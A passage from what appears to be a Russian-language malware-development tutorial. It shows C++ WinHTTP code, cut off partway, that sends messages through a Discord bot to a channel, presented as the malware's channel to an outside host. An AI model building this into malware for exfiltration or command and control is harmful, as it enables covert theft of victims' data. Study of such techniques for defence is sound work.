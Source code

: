 ![вредоносное ПО](./images/127/2024-07-02_17-09.png){width="80%"}    

Как можно заметить, мы получили токен для бота. Согласно [документации](https://discord.com/developers/docs/resources/channel#create-message), нам необходима следующая логика для отправки сообщений:     

```cpp
#define DISCORD_BOT_TOKEN "your discord bot token" // replace with your actual bot token
#define DISCORD_CHANNEL_ID "your discord channel id" // replace with the channel ID where you want to send the message

// function to send a message to discord using the discord Bot API
int sendToDiscord(const char* message) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;
  HINTERNET hRequest = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, 
  WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"discord.com", 
  INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
    return 1;
  }

  hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/api/v10/channels/" 
  DISCORD_CHANNEL_ID "/messages", NULL, WINHTTP_NO_REFERER, 
  WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
    fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  // set headers
  if (!WinHttpAddRequestHeaders(hRequest, L"Authorization: Bot " 
  DISCORD_BOT_TOKEN "\r\nContent-Type: application/json\r\n", -1, 
  WINHTTP_ADDREQ_FLAG_ADD)) {
    fprintf(stderr, "WinHttpAddRequestHeaders. error %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  // construct JSON payload
  char json_body[1024];
  snprintf(json_body, sizeof(json_body), "{\"content\": \"%s\"}", message);
```